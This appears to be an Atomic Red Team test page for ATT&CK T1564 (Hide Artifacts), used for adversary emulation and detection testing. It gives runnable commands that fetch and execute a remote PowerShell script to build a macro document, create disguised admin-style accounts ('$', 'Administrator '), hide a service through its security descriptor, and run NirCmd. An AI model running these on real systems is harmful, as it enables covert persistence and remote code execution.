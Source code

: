 ```yaml
---
tags: [T1564, atomic_test]
filename: "[[T1564 - Hide Artifacts]]"
---
```

# T1564 - Hide Artifacts

## Atomic Test #1 - Extract binary files via VBA
This module extracts a binary (calc.exe) from inside of another binary. 

In the wild maldoc authors will use this technique to hide binaries inside of files stored 
within the office document itself. An example of this technique can be seen in sample

f986040c7dd75b012e7dfd876acb33a158abf651033563ab068800f07f508226

This sample contains a document inside of itself. Document 1 is the actual maldoc itself, document 2
is the same document without all the malicious code. Document 1 will copy Document 2 to the file system
and then "peek" inside of this document and pull out the oleObject.bin file. Contained inside of this
oleObject.bin file is a payload that is parsed out and executed on the file system.

**Supported Platforms:** Windows


**auto_generated_guid:** 6afe288a-8a8b-4d33-a629-8d03ba9dad3a






#### Attack Commands: Run with `powershell`! 


```powershell
$macro = [System.IO.File]::ReadAllText("PathToAtomicsFolder\T1564\src\T1564-macrocode.txt")
$macro = $macro -replace "aREPLACEMEa", "PathToAtomicsFolder\T1564\bin\extractme.bin"
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroCode "$macro" -officeProduct "Word" -sub "Extract" -NoWrap
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\extracted.exe" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Create a Hidden User Called "$"
Creating a user with a username containing "$"

**Supported Platforms:** Windows


**auto_generated_guid:** 2ec63cc2-4975-41a6-bf09-dffdfb610778






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user $ ATOMIC123! /add /active:yes
```

#### Cleanup Commands:
```cmd
net user $ /DELETE 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Create an "Administrator " user (with a space on the end)
Creating a user with a username containing with a space on the end

**Supported Platforms:** Windows


**auto_generated_guid:** 5bb20389-39a5-4e99-9264-aeb92a55a85c






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-LocalUser -Name "Administrator " -NoPassword
```

#### Cleanup Commands:
```powershell
Remove-LocalUser -Name "Administrator " 2>&1 | out-null
```





<br/>
<br/>

## Atomic Test #4 - Create and Hide a Service with sc.exe
The following technique utilizes sc.exe and sdset to change the security descriptor of a service and "hide" it from Get-Service or sc query.

Upon successful execution, sc.exe creates a new service changes the security descriptor.

https://twitter.com/Alh4zr3d/status/1580925761996828672
https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-string-format

**Supported Platforms:** Windows


**auto_generated_guid:** 333c7de0-6fbe-42aa-ac2b-c7e40b18246a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| service_name | Name of service to create | string | AtomicService|
| executable_command | Command to execute as a service | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc.exe create #{service_name} binPath= "#{executable_command}"
sc sdset #{service_name} "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

#### Cleanup Commands:
```cmd
sc sdset #{service_name} "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
sc.exe delete #{service_name}
```





<br/>
<br/>

## Atomic Test #5 - Command Execution with NirCmd
NirCmd is used by threat actors to execute commands, which can include recon and privilege escalation via running commands via the SYSTEM account
See https://www.kroll.com/en/insights/publications/cyber/black-basta-technical-analysis

**Supported Platforms:** Windows


**auto_generated_guid:** 2748ab4a-1e0b-4cf2-a2b0-8ef765bec7be





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| nircmd_location | Location of nircmd executable | Path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;nircmd.exe|
| command_to_execute | Command for nircmd to execute | Path | win child class "Shell_TrayWnd" hide class "TrayClockWClass"|
| cleanup_command_to_execute | Cleanup command to undo the arbitrary command ran by nircmd | Path | win child class "Shell_TrayWnd" show class "TrayClockWClass"|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c "#{nircmd_location}" #{command_to_execute}
```

#### Cleanup Commands:
```powershell
cmd /c "#{nircmd_location}" #{cleanup_command_to_execute} -erroraction silentlycontinue | out-null
```



#### Dependencies:  Run with `powershell`!
##### Description: The Nircmd executable must exist at (#{nircmd_location})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{nircmd_location}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://www.nirsoft.net/utils/nircmd-x64.zip" -outfile "PathToAtomicsFolder\..\ExternalPayloads\nircmd.zip" 
expand-archive -path "PathToAtomicsFolder\..\ExternalPayloads\nircmd.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\"
```




<br/>
